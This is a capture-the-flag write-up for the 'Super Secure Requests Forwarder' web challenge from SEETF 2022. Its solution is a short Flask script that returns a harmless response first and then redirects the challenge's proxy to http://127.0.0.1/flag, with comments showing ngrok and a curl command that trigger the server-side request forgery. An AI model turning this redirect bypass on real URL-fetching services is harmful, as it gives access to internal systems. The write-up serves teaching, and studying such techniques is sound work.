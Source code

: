 ```yaml
---
name: Super Secure Requests Forwarder (2022)
event: Social Engineering Experts CTF 2022
category: Web
description: Writeup for Super Secure Requests Forwarder (Web) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Super Secure Requests Forwarder

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=4180 "Social Engineering Experts CTF 2022: Super Secure Requests Forwarder")

## Description

> Hide your IP address and take back control of your privacy! Visit websites through our super secure proxy.

## Solution

{% code overflow="wrap" %}
```py
from flask import Flask, redirect, request

# flask run
# ngrok http 5000
# curl -X POST -d "url=http://c0ac-81-103-153-174.ngrok.io/exploit" http://ssrf.chall.seetf.sg:1337/

app = Flask(__name__)
check = True

@app.route("/")
def index():
    return "<a href='https://www.youtube.com/c/CryptoCat23'>👀</a>"

@app.route("/exploit", methods=['GET', 'POST'])
def handle():
    global check
    if check:  # First request = benign
        check = False
        return "First request is benign, why wouldn't the second be?!"
    else:  # Second request = malicious
        check = True
        return redirect("http://127.0.0.1/flag", code=302)
```
{% endcode %}
